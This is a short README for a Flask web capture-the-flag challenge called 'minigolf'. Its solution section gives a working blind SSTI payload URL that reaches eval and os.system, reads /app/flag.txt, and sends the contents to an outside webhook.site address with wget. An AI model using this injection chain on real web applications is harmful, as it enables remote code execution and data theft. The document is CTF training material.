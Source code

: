 # minigolf
**Category:** Web
**Difficulty:** Easy-Medium
**Author:** Eth007

## Description

Too much Flask last year... let's bring it back again.

## Distribution

- website

## Deploy notes

not sure how well it will work over a remote connection

## Solution

- blind ssti, use time to bypass
- or this: http://minigolf.ictf.kctf.cloud/?txt={%set%20a=request.args%}{%set%20b=g.pop|attr(a.g)|attr(a.i)(a.b)|attr(a.i)(a.e)(a.c)%}&g=__globals__&b=__builtins__&i=__getitem__&e=eval&c=__import__(%22os%22).system(%22wget%20https://webhook.site/a84fff5a-2df4-4fc5-9ec1-4e2a69d2ccf8?flag=`cat%20/app/flag.txt`%22)
